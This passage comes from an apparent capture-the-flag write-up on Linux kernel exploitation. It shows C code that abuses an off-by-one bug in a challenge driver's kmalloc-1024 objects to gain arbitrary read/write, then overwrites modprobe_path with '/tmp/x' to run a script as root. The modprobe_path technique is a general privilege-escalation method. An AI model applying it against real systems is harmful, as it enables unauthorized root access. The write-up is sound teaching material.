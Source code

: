 ```c

// Ensure controlled data will be reached by filling as well fatptr objects data
for (int i = 0; i < 0x20; i++) {
    switch_channel(fd, 0x20 + i);
    write_channel(fd, &fake_obj, sizeof (*fake_obj), 0);
}

// Exploit again the off-by-one vulnerability inside the kmalloc-1024 cache
switch_channel(fd, 0x40);
```



Now, the currently selected object might look like that : 

```
data = 0xdeadbeefcafebabe
size = 0xf00dbabe
```



We can know read / write data of controlled length at any address ! :smile:



### :shell: Gaining root privileges

Once we've got AAR / AAW primitives, there is finally a little bit of work to transform it into code execution.

There exist plenty of methods to transform these primitives, but I think one of them is easier : the `modprobe_path` overwrite technique.

You can find a detailed explanation of this technique on [this blog post](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/).



The principle is to overwrite a global variable `modprobe_path` by a path which points to a controlled file of us.

Then, when a user tries to execute a file with unknown magic bytes, the program located at `modprobe_path` is executed with root privileges.

If we place a custom script which simply copy the flag from `/dev/vda`, we win ! :tada:



Let's just overwrite `modprobe_path` by `/tmp/x` : 

```c
struct fatptr * fake_obj = malloc(sizeof (*fake_obj));

fake_obj->data = (void *) kernel_base + 0x208b980; // modprobe_path
fake_obj->size = 0x10; // size

// ...

// Exploit again the off-by-one vulnerability inside the kmalloc-1024 cache
switch_channel(fd, 0x40);

char modprobe[0X40] = {};
read_channel(fd, modprobe, 0x40, 0);
printf("current modprobe_path = %s\n", modprobe);

write_channel(fd, "/tmp/x\x00", 7, 0);

get_flag();
```
